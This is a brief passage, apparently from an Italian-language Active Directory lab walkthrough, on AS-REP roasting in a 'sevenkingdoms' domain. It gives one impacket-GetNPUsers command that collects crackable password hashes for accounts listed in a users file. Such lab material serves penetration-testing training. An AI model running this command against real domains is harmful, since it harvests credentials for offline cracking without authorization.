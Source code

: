 ### **ASPREP-roasting**
Hai trovato la lista degli username, ora spolvera gli appunti
```bash
impacket-GetNPUsers 'sevenkingdoms/' -no-pass -usersfile users.txt -format hashcat -outputfile hash
```